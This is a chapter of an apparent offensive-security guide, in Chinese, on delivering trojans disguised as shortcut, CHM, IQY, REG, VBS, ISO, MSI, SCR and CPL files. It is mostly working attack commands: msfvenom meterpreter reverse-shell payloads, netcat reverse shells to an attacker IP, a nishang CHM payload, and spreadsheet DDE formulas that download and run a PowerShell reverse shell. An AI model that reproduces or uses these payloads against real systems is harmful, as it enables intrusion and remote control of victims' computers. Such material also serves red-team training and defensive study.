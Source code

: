 # 木马投递

## 恶意软件伪装

### 文件伪装

1. 快捷方式伪装

(1)

[lnk.ps1](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/lnk.ps1)

(2)

[ico.ps1](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/ico.ps1)

[download.ps1](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/download.ps1)

hi.exe:

```bash
msfvenom -p windows/x64/messagebox TEXT='There is payload!' TITLE='Ghost Wolf Lab' -f exe > hi.exe
```

(3)

[ole.ps1](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/ole.ps1)

nc.cmd:

```bash
C:\Users\Administrator\Desktop\nc.exe IP地址 4444 -e cmd.exe  
//嵌入攻击者主机IP地址
```

2. CHM文件

[nc.html](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/nc.html)

```bash
nc -lvp 4444
```

nishang:

```bash
Import-Module .\Out-CHM.ps1
out-chm -payload "C:\Users\Administrator\Desktop\nc.exe -e powershell IP地址 5555" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
nc -lvp 5555
```

3. IQY文件

test.iqy:

```bash
WEB
1
https://www.baidu.com/robots.txt
```

calc.dat:

```bash
=cmd|' /C calc'!notthissheet
```

calc.iqy:

```bash
WEB
1
http://IP地址/payload/calc.dat
```

(1)

```bash
Start-CaptureServer -AuthType Basic -IPAddress IP地址 -LogFilePath log.txt
```

login.dat:

```bash
=cmd|' /C start iexplore http://IP地址/'!notthissheet
```

auth.iqy:

```bash
WEB
1
http://IP地址/payload/login.dat
```

(2)

```bash
=cmd|' /C C:\Users\Administrator\Desktop\nc.exe IP地址 4444 -e cmd.exe'!notthissheet
```

```bash
=cmd|' /C powershell.exe "IEX(New-Object Net.WebClient).DownloadString('http://IP地址/nishang/Shells/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress IP地址 -Port 4444"'!notthissheet
```

4. REG文件

[malicious.reg](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/malicious.reg)

5. VBS文件

[evil.vbs](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/evil.vbs)

6. JScript文件

[evil.js](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6%E4%BC%AA%E8%A3%85/evil.js)

7. ISO文件

```bash
apt-get install genisoimage
mkisofs -o malicious.iso -V "Update" -J -R hi.exe
```

8. MSI文件

```bash
msfvenom执行msfvenom -p windows/x64/messagebox TEXT='Hi,There is a payload!' TITLE='Ghost Wolf Lab' -f msi > evil.msi
```

9. SCR文件

```bash
msfvenom执行msfvenom -p windows/x64/messagebox TEXT='Hi,There is a payload!' TITLE='Ghost Wolf Lab' -f exe > payload.exe
payload.exe > payload.scr
```

10. 联系人文件

(1)

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=IP地址 lport=4444 -f dll > shell.dll
```

```bash
http.\\www.ghostwolflab.com.cpl
shell.dll > www.ghostwolflab.com.cpl
```

(2)

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP地址 LPORT=5555 -f vbs > shell.vbs
```

```bash
<a href="vbs\shell.vbs">snowwolf@admin.com</a>
```

11. CPL文件

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=IP地址 lport=4444 -f dll > shell.dll
```
